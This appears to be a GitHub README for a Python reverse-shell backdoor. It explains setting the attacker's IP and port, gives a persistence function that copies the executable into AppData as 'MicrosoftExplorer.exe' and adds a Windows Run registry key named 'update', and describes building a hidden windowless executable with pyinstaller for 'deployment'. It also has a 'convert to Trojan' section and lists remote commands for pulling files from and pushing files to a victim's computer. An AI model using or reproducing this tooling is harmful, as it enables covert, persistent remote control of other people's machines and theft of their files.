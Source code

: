 # RevShell_2
A reverse shell written in Python with Single client support

## Usage

The backdoor.py script is the backdoor. It can be used as it is, or can be converted to an executable using ```Pyinstaller```

Step 1 

Editing backdoor.py and listener.py
```
# These stataments are at the very ends of the files
my_backdoor = Backdoor("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP the backdoor will try to connect to

my_listener = Listener("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP on which the listener will listen

# Next we'll modify the persistence function
def persistence(self):
        location = os.environ["appdata"] + "\\MicrosoftExplorer.exe"
        # this will set the location of the .exe to a hidden appdata folder with MicrosoftExplorer.exe name
        # this will set the location of the executable to whatever path you want,  for whatever OS you want, please fill it carefully
        if not os.path.exists(location):
            shutil.copyfile(sys.executable, location)
            # shutil.copyfile(__file__, location)
            # if you do not have the executable and want python file copied
            subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ/d "' + location + '"', shell=True)
            # command for persistence windows. Modify for linux and MacOS
```
Step 2

Once the files have been edited for your machine's IP and target's OS, it can be converted to a executable using pyinstaller, or can be used as it is
```
pip3 install pyinstaller
pyinstaller --onefile --noconsole backdoor.py
# add the no console argument to make it better
```
The executable will be found in the dist folder

Now, the executable is ready for deployment.

## To convert executable to Trojan

Step 1

Edit backdoor.py
```
```
step 2

Use pyinstaller
```
```

## Usage

After the connection is accepted a special prompt will be shown ```#>```
In this prompt, any and all system commands will be executed and a few special commands are coded into it as well
```
download <filename> - downloads a file from the target computer
upload <filename> - uploads a file from hacker's computer to target computer
quit - closes the connection and exits the program
exit - closes the connection and exits the program
```
